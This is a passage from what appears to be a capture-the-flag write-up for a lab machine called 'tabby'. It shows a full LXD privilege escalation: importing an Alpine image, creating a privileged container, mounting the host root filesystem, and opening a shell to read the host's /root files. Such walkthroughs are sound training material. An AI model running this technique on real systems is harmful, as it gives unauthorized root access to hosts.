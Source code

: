 If everything went fine, a *.tar.gz file should have been generated (e.g. alpine-v3.12-x86\_64-20200917\_1504.tar.gz). Transfer it to the target and install the image:

```bash
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200917_1504.tar.gz --alias myimage
<e-v3.12-x86_64-20200917_1504.tar.gz --alias myimage
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| myimage | aa2e216dad95 | no     | alpine v3.12 (20200917_15:04) | x86_64       | CONTAINER | 3.04MB | Sep 17, 2020 at 4:58pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
ash@tabby:~$ lxc init myimage tabby -c security.privileged=true
lxc init myimage tabby -c security.privileged=true
Creating tabby
ash@tabby:~$ lxc config device add tabby mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to tabby
ash@tabby:~$ lxc start tabby
lxc start tabby
ash@tabby:~$ lxc exec tabby /bin/sh
lxc exec tabby /bin/sh
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ls -ila
ls -ila
total 40
 262146 drwx------    6 root     root          4096 Jun 16 13:59 .
      2 drwxr-xr-x   20 root     root          4096 May 19 10:28 ..
 276206 lrwxrwxrwx    1 root     root             9 May 21 20:30 .bash_history -> /dev/null
 262164 -rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
 400212 drwx------    2 root     root          4096 May 19 22:23 .cache
 794706 drwxr-xr-x    3 root     root          4096 May 19 11:50 .local
 262165 -rw-r--r--    1 root     root           161 Dec  5  2019 .profile
 276414 -rw-r--r--    1 root     root            66 May 21 13:46 .selected_editor
 794584 drwx------    2 root     root          4096 Jun 16 14:00 .ssh
 276913 -rw-r--r--    1 root     root            33 Sep 17 14:41 root.txt
 794661 drwxr-xr-x    3 root     root          4096 May 19 10:41 snap
```
cat root.txt
